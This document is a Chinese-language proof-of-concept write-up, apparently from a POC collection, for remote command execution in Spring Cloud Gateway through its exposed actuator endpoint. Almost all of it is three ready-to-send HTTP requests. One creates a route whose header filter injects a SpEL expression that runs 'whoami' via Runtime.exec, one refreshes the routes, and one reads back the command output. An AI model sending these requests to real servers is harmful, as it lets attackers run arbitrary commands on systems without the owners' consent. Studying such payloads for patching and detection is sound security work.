




# Spring Cloud Gateway RCE 远程命令执行漏洞



***默认路径 gateway 在页面 ../actuator 可访问***

## POC
### 创建路由
```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host:  XXX
Accept-Encoding: gzip, deflate
Accept: /
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 333

{
  "id": "wuyaaq",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```
***tips：/actuator/gateway/routes/hacktest 中的 hacktest 为自定义路由 id***



### 主动刷新路由
```
POST /actuator/gateway/refresh HTTP/1.1
Host: XXX
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: keep-alive
Content-Length: 5
Content-Type: application/x-www-form-urlencoded
Origin: null
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0

a=1
```



### 通过自定义id获取路由
```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: XXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101
Firefox/97.0
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,
*/*;q=0. 8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Length: 2
```

